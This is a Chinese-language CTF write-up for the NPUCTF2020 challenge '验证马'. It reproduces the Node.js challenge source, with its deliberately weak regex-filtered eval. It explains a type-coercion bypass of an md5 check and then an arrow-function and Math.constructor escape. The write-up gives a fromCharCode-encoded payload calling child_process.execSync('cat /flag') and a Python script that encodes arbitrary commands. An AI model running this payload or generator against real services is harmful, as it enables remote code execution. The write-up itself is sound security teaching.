








# NPUCTF2020-验证马

参考链接：https://blog.csdn.net/2202_75361164/article/details/137228835?spm=1001.2101.3001.6650.3&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-3-137228835-blog-122283691.235%5Ev43%5Epc_blog_bottom_relevance_base1&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-3-137228835-blog-122283691.235%5Ev43%5Epc_blog_bottom_relevance_base1&utm_relevant_index=6

node.js中的命令执行：https://blog.csdn.net/2202_75361164/article/details/137228896

首先打开靶机，发现是一个类似计算器的网站


发现有提示，点击之后发现是js源码：

```js
const express = require('express');
const bodyParser = require('body-parser');
const cookieSession = require('cookie-session');

const fs = require('fs');
const crypto = require('crypto');

const keys = require('./key.js').keys;

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

function saferEval(str) {
  if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, '')) {
    return null;
  }
  return eval(str);
} // 2020.4/WORKER1 淦，上次的库太垃圾，我自己写了一个

const template = fs.readFileSync('./index.html').toString();
function render(results) {
  return template.replace('{{results}}', results.join('<br/>'));
}

const app = express();

app.use(bodyParser.urlencoded({ extended: false }));
app.use(bodyParser.json());

app.use(cookieSession({
  name: 'PHPSESSION', // 2020.3/WORKER2 嘿嘿，给👴爪⑧
  keys
}));

Object.freeze(Object);
Object.freeze(Math);

app.post('/', function (req, res) {
  let result = '';
  const results = req.session.results || [];
  const { e, first, second } = req.body;
  if (first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])) {
    if (req.body.e) {
      try {
        result = saferEval(req.body.e) || 'Wrong Wrong Wrong!!!';
      } catch (e) {
        console.log(e);
        result = 'Wrong Wrong Wrong!!!';
      }
      results.unshift(`${req.body.e}=${result}`);
    }
  } else {
    results.unshift('Not verified!');
  }
  if (results.length > 13) {
    results.pop();
  }
  req.session.results = results;
  res.send(render(req.session.results));
});

// 2019.10/WORKER1 老板娘说她要看到我们的源代码，用行数计算KPI
app.get('/source', function (req, res) {
  res.set('Content-Type', 'text/javascript;charset=utf-8');
  res.send(fs.readFileSync('./index.js'));
});

app.get('/', function (req, res) {
  res.set('Content-Type', 'text/html;charset=utf-8');
  req.session.admin = req.session.admin || 0;
  res.send(render(req.session.results = req.session.results || []))
});

app.listen(80, '0.0.0.0', () => {
  console.log('Start listening')
});
```

主要利用代码：

```
app.post('/', function (req, res) {
  let result = '';
  const results = req.session.results || [];
  const { e, first, second } = req.body;
  if (first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])) {
    if (req.body.e) {
      try {
        result = saferEval(req.body.e) || 'Wrong Wrong Wrong!!!';
      } catch (e) {
        console.log(e);
        result = 'Wrong Wrong Wrong!!!';
      }
      results.unshift(`${req.body.e}=${result}`);
    }
  }
```

saferEval函数：

```
function saferEval(str) {
  if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, '')) {
    return null;
  }
  return eval(str);
} // 2020.4/WORKER1 淦，上次的库太垃圾，我自己写了一个
```

**首先要绕过过滤，先是js弱类型绕过，然后是绕过saferEval函数的正则表达式**

### js弱类型比较/ls字符串加法规则/js中的length

**1、在js中的弱类型比较与php相似**



**2、在nodejs中，字符串无论与其他任何类型相加都是字符串**



**3、在js中，数字类型和字典类型没有length**



---

题目源码：

```
if (first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0]))
```

首先需要让first和second的length属性相同，所以要使用数组或者字符串，不能用数字和字典

然后keys[0]未知，但是知道基本上是String类型，根据上面String类型加法规则，我们可以使`first=[1]`，`second='1'`即可使`first+keys[0]` === `second+key[0]`，然后就能绕过md5，不能用text格式了，需要用json传，保证一个是数组一个是字符串。

```
POST：
{"e":"1+1","first":[1],"second":"1"}
```



成功绕过。

---

然后是绕过正则表达式

```
if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, ''))
```

- `(?:Math(?:\.\w+)?)`：匹配 `Math.[0-9a-z]`
- `[()+\-*/&|^%<>=,?:]`：匹配中括号内任意一个字符（`\-`为减号）
- `(?:\d+\.?\d*(?:e\d+)?)`：匹配 数字开头 一个或零个点 一个或零个 e[0-9]
- ：匹配空格

### js中的箭头函数（匿名函数）

参考链接：[命令执行（chile_process.exec）#箭头函数（匿名函数）](https://blog.csdn.net/2202_75361164/article/details/137228896)

```
=>是箭头函数（[匿名函数](https://so.csdn.net/so/search?q=匿名函数&spm=1001.2101.3001.7020)）其类似其类似 (参数1, 参数2, …, 参数N) => { return 函数返回语句内容 }
```



- 可以看到当为单个参数的时候可以不用括号
- 当我们使用()代替{}就会牵扯到自调用

### 自调用:`(()=>())()`

**可以使用()代替{}**

- 这时和{}的写法有所不同
- 不需要return了

`(参数1, 参数2, …, 参数N) => ( 语句1，语句2，语句3…… ) `，执行顺序从左到右，已最右边的语句结果作为返回值



写单个参数也可以不用括号



- 根据上面我们在来看这题需要使用**箭头函数的自调用+toString绕过**
- 而且开头要使用Math
- 由此得出payload

```
(Math=>(Math=Math.constructor,Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41,46,116,111,83,116,114,105,110,103,40,41))()))(Math+1)
```

String.fromCharCode的内容可以用脚本生成

```
def gen(cmd):  
s = f"return process.mainModule.require('child_process').execSync('{cmd}').toString()"  
return ','.join([str(ord(i)) for i in s])  
  
print('String.fromCharCode('+gen('ls')+')')

# String.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,108,115,39,41,46,116,111,83,116,114,105,110,103,40,41)
```

最终payload：

```
POST：
{"e":"(Math=>(Math=Math.constructor,Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41,46,116,111,83,116,114,105,110,103,40,41))()))(Math+1)","first":[1],"second":"1"}
```


